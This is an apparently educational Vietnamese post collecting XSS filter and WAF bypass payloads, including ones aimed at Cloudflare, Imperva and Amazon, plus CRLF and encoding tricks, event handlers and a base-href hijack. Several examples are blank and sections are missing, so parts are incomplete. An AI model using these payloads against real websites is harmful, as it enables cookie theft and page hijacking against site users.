

### Một số cách bypass XSS filter

- Bình thường với một lập trình viên hiện tại sẽ được cho tìm hiểu về một sỗ lỗ hổng tiêu biểu hay gặp đặc biệt là XSS, nên bạn sx thường xuyên gặp những trang web filter để chống lại XSS.

1. Filter thẻ :
- Vì thẻ javascript và các thẻ trong html là nguyên nhân chính gây ra XSS nên việc filter thẻ trong đầu vào của user là cần thiết ạ:

Đây là kết quả:

2. Filter thẻ (case insensitive)
- Giống như ở trên nhưng mà trường hợp này sẽ không phân biệt chữ hoa chữ thường ạ.

Ví dụ :

- Câu lệnh regex /
- giải thích bởi vì khi match thấy 
Và kết quả em được là :

- Hoặc em sẽ không cần dùng thẻ . Có rất nhiều thẻ HTML khác có thể thực thi script ( trên payload all the things ạ) như là:

- Ngoài ra mình có thể chèn thẻ khác không có trong định nghĩa tùy theo hoạt động của browser ạ hoặc một số version của browser ạ

- 

3. Filter kí tự space

Ví dụ: 

- đoạn code này sẽ filter kí tự space và 

9. XSS được thiết lập chỉ bởi URL (chẳng hạn như khi giá trị đầu vào nhập trực tiếp vào phần href của thẻ a)
                                        <a href="javascript:alert(1)">Link</a>
10. 
                                        
`-alert(1)</script>
</body>

                                        https://vulnerabledoma.in/bypass/dom_redirect#javascript:alert(1)

13. XSS trong các trang XML
https://vulnerabledoma.in/bypass/xml?q=%3Cscript%20xmlns=%22http://www.w3.org/1999/xhtml%22%3Ealert(1)%3C/script%3E
<?xml version="1.0"?><html></html>

Ngoài ra còn rất nhiều kiểu filter XSS khác nhau do các dev có tư duy filter riêng của mình, em có tìm được 2 trang có đầy đủ hầu hết các kiểu bypass ạ:3

# https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet#xss-auditor
# https://github.com/masatokinugawa/filterbypass/wiki/Browser’s-XSS-Filter-Bypass-Cheat-Sheet
Và cả trên payload all the thing nữa ạ.

## Một số cách dị em đọc được trên trang NhatTruong Blog ạ:<
- Cloudflare XSS Bypass

          <Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>

          
- XXS Bypass Imperva WAF

           (Z("onerror="a=console,a.log`${cookie}`"
- Bypass WAF Amazon

           <a/+/OnMoUsEOVEr+=+(confirm)(document.domain)>
- Crlf injection to bypass javascript: Đang bị bờ lách lít

            java%0d%0ascript%0d%0a:alert(0)
- Trong trường hợp svg onload= bị filter, %0d sẽ đóng vai trò dấu ngăn cách và thỉnh thoảng cũng phá được waf :v.) %0a %0c %09 %00 cũng hay được sử dụng lắm nhé

            <svg%0donload=prompt(1)>
- Cách này bt không có gì :v

            <input onfocus=alert(0) autofocus>
- The use of \\ will break out of the quote inside a script tag

-            \\"-alert(0);//
-  The WAF blacklisted alert(0), prompt(0), but failed to filter confirm(1) aswell as onmouseenter=. Onmouseneter does the same as onmouseover= but a lot of devs seem to not know this (not sure why) and fail to blacklist it.

              "onmouseenter=confirm(1)>
- HTML Injection?

               <base href=//yoursite.com>

               %uff1cscript%uff1ealert(1)%uff1c/script%uff1